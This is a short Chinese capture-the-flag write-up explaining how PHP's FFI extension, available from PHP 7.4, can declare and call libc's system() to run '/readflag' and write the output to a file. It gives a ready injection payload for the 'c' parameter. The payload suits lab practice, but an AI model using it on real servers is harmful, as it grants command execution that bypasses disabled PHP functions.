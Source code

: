 # 知识点
FFI，php7.4以上才有<br /> [https://www.php.net/manual/zh/ffi.cdef.php](https://www.php.net/manual/zh/ffi.cdef.php)<br /> [https://www.php.cn/php-weizijiaocheng-415807.html](https://www.php.cn/php-weizijiaocheng-415807.html)
# 思路
```php
c=$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```
![image.png](./images/20231017_2351101919.png)
